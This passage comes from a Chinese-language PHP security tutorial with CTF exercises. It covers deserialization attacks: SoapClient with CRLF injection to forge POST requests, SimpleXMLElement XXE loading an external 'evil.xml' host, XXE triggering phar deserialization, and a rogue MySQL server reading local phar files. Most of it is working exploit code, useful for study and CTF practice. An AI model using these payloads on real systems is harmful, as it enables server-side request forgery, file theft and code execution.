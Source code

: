 __call方法: https://www.php.net/manual/zh/soapclient.call.php

首先测试下正常情况下的SoapClient类，调用一个不存在的函数，会去调用__call方法：
```php
<?php
$target = 'http://127.0.0.1:5555/path';
$post_string = 'data=something';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo $aaa;

$c = unserialize($aaa);
$c->not_exists_function();
?>
```
使用SoapClient反序列化+CRLF可以生成任意POST请求。<br>
相关CTF练习题目：<br>
https://github.com/team-su/SUCTF-2019/tree/master/Web/Upload%20Labs%202<br>
https://github.com/Nu1LCTF/n1ctf-2018/tree/master/source/web/easy_harder_php<br>
## **4.5 利用SimpleXMLElement反序列化进行XXE**
SimpleXMLElement::__construct:<br>
https://www.php.net/manual/zh/simplexmlelement.construct.php
```php
$exp = new SimpleXMLElement('https://ham.exeye.io/evil.xml',LIBXML_NOENT,True);
```
## **4.6 利用XXE反序列化phar**
```php
<?php
error_reporting(0);
class A{
	public function __wakeup(){
		echo "ok";
	}
}

$xml = <<<EOF
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY file SYSTEM "php://filter/resource=phar://./zend.phar">
]>
<x>&file;</x>
EOF;
$data = simplexml_load_string($xml);
```
## **4.7 利用Rouge Mysql读取phar进行反序列化**
```php
// 首先在vps上搭建好Rouge Mysql Server，并指定好要读取的本地文件phar(经过上传或者其他)
// 根据代码审计构造利用链条，迫使在受害机器上模拟执行mysql客户端连接Rouge Mysql Server
$m = new mysqli(); 
$m->init(); 
$m->real_connect('vps_ip','select 1','select 1','select 1',3306); 
$m->query('select 1;');
// mysql客户端读取本地文件phar时候触发反序列化。
```